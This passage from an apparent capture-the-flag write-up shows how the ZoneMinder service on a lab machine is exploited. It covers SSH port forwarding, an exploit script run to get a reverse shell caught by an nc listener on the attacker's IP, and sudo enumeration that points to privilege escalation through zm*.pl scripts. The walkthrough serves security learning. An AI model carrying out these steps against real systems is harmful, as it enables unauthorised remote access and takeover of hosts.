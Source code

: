 At this point, by portforwarding with SSH you can again run the exploit for the version of Zoneminder identified in the previous steps.

About portforwarding:

```shell
$ ssh -L 9090:127.0.0.1:8080 matthew@10.10.11.245
matthew@10.10.11.245's password:
[...]
```

With such a configuration, traffic sent on port 9090 on the attacking machine will be redirected to port 8080 on the victim machine's localhost network.  Now it is time to activate a netcat listener and run the exploit.

```shell
$ python3 exploit.py -t http://127.0.0.1:9090 -ip 10.10.14.6 -p 4444
[>] fetching csrt token
[>] recieved the token: key:b73e6c20e3a4ca169a23cc229949ee1a75709f80,1707389554
[>] executing...
[>] sending payload..
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.6  netmask 255.255.254.0  destination 10.10.14.6
        inet6 dead:beef:2::1004  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::5c47:1a5e:ca67:3309  prefixlen 64  scopeid 0x20<link>
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.245] 44306
bash: cannot set terminal process group (1113): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$
```

A shell with user "zoneminder" is correctly received. It is checked whether such a user is able to execute commands with "sudo".

```shell
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

Apparently, the "zoneminder" user is able to execute some Perl scripts found in the "/usr/bin" folder. Such scripts are editable only by root.

```shell
zoneminder@surveillance:/usr/share/zoneminder/www$ ls -la /usr/bin/zm[a-zA-Z]*.pl
-rwxr-xr-x 1 root root 43027 Nov 23  2022 /usr/bin/zmaudit.pl
-rwxr-xr-x 1 root root 12939 Nov 23  2022 /usr/bin/zmcamtool.pl
-rwxr-xr-x 1 root root  6043 Nov 23  2022 /usr/bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23  2022 /usr/bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23  2022 /usr/bin/zmfilter.pl
-rwxr-xr-x 1 root root  5640 Nov 23  2022 /usr/bin/zmonvif-probe.pl
-rwxr-xr-x 1 root root 19386 Nov 23  2022 /usr/bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23  2022 /usr/bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23  2022 /usr/bin/zmrecover.pl
-rwxr-xr-x 1 root root  4815 Nov 23  2022 /usr/bin/zmstats.pl
-rwxr-xr-x 1 root root  2133 Nov 23  2022 /usr/bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23  2022 /usr/bin/zmtelemetry.pl
-rwxr-xr-x 1 root root  5340 Nov 23  2022 /usr/bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23  2022 /usr/bin/zmtrigger.pl
```